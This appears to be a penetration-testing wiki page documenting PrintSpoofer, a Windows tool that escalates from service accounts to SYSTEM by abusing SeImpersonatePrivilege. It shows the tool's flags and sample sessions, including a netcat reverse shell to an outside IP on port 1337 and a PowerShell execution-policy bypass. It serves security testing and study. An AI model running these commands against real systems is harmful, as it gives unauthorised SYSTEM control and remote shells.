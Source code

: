 ```yaml
---
title : "Printspoofer"
# pre : ' '
description : "From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019."
date : 2021-06-21T14:57:31+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Printspoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing SeImpersonatePrivilege on Windows 10 and Server 2016/2019.

More info at [itm4n.github.io](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

## Installation

Download latest release from [Github.com](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

{{%resources title="v1.0" fa_icon_class="far fa-file-code" pattern=".*(exe)"/%}}

## Usage

```plain
PrintSpoofer.exe [OPTIONS]
```

## Flags

```plain
PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Execute the command *CMD*
  -i          Interact with the new process in the current command prompt (default is non-interactive)
  -d <ID>     Spawn a new process on the desktop corresponding to this session *ID* (check your ID with qwinsta)
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the desktop of the session 1
      PrintSpoofer.exe -d 1 -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

## Usage 1: Spawn a SYSTEM process and interact with it

If you have an interactive shell, you can create a new SYSTEM process in your current console.

Use case: bind shell, reverse shell, `psexec.py`, etc.

```plain
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

## Usage 2: Spawn a SYSTEM process and exit

If you can execute commands but you don't have an interactive shell, you can create a new SYSTEM process and exit immediately without interacting with it.

Use case: WinRM, WebShell, `wmiexec.py`, `smbexec.py`, etc.

Create a reverse shell:

```plain
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```plain
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

## Usage 3: Spawn a SYSTEM process on a desktop

If you are **logged on locally or via RDP** (including VDI), you can spawn a SYSTEM command prompt on your desktop. First, check your session ID with the command `qwinsta` and then specify this value with the option `-d`.

Use case: Terminal Session (RDP), VDI

```plain
C:\TOOLS>qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
 console           Administrator             1  Active
>rdp-tcp#3         lab-user                  3  Active
 rdp-tcp                                 65536  Listen

C:\TOOLS>PrintSpoofer.exe -d 3 -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

## URL List

- [Github.com - PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
- [itm4n.github.io - PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
